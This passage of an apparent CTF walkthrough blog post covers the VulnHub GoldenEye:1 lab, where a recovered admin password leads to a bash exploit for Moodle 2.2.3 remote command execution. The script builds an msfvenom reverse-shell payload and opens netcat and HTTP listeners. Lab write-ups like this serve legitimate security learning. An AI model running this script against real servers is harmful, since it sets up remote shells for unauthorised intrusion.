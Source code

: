 Hmm. I wonder what's this for? Could this be `admin`'s password to the training site? There's only one way to find out.

![50295814.png](/assets/images/posts/goldeneye-1-walkthrough/50295814.png)

It's the `admin`'s password alright.

### Moodle 2.2.3 Remote Command Execution

There's a Metasploit exploit for Moodle but I find it hard to use. Instead, I wrote my own `bash` script based on it. The main difference lies in the payload.

<div class="filename"><span>exploit.sh</span></div>

```bash
#!/bin/bash
USER=admin
PASS=xWinter1995x%21
RHOST=severnaya-station.com
LHOST=192.168.30.128
LPORT=1234
SETTING=admin/settings.php
SECTION="$SETTING?section=editorsettingstinymce"
URI=gnocertdir
RPC=lib/editor/tinymce/tiny_mce/3.4.9/plugins/spellchecker/rpc.php
JSON='{"id":"c0","method":"checkWords","params":["en",[""]]}'

# Check for reverse shell
if [ ! -e rev ]; then
  printf "[+] Generating reverse shell..."
  msfvenom -p linux/x64/shell_reverse_tcp LHOST=$LHOST LPORT=$LPORT -f elf -o rev &>/dev/null
  printf "done\n"
fi

# Set up listeners
printf "[+] Opening listeners..."
xterm -T "SimpleHTTPServer" -e "python -m SimpleHTTPServer 80" &
xterm -T "SHELL" -e "nc -lnvp $LPORT" &
printf "done\n"
```

[1]: https://www.vulnhub.com/entry/goldeneye-1,240/
[2]: https://www.reddit.com/user/_creosote
[3]: https://www.vulnhub.com/